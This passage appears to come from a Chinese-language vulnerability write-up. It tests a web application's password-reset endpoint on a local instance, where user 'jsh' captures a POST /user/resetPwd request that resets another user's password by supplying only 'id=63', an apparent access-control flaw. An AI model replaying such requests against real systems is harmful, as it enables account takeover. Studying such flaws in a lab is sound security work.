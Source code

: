 用户原始密码

[![](assets/1711556055-10be4837d57e0b1ccb49c1f3f3f1824d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233607-9e122b88-c117-1.png)

现在登陆 jsh 用户，尝试重置 test123 用户密码

[![](assets/1711556055-a20ae5e0d7e697bd31496f09917d0f9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233617-a43350f0-c117-1.png)

抓包

```plain
POST /user/resetPwd HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/pages/manage/user.html
Cookie: Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1706618997,1706707611,1706717491; JSESSIONID=30DAE0DC23EE5303A1CFE03DD4394A2F; Hm_lpvt_1cd9bcbaae133f03a6eb19da6579aaba=1706781674
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=63
```
